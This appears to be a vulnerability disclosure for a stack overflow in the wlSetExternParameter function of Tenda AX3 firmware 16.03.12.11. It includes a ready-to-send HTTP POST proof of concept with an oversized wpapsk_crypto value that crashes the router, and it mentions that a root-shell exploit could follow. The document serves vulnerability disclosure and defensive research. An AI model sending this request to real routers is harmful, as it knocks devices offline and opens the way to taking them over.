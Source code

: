 # TENDA AX3 16.03.12.11 stack overflow Vulnerabilty in **wlSetExternParameter**

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3476.html

<img src="img/0.jpg" style="zoom: 50%;" />

## Vulnerability Description

There is a stack overflow vulnerability in function `wlSetExternParameter`, in which the `wpapsk_cryptovalue` variable can be obtained from the http request parameter `wpapsk_crypto` without checking its size. The vulnerability can be triggered following `fromSetWirelessRepeat->wlSetExternParameter`.

<img src="img/3.jpg" style="zoom: 42%;" />

<img src="img/2.jpg" style="zoom:50%;" />

## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

We can see the router crash, and finally we can write an exp to get a root shell.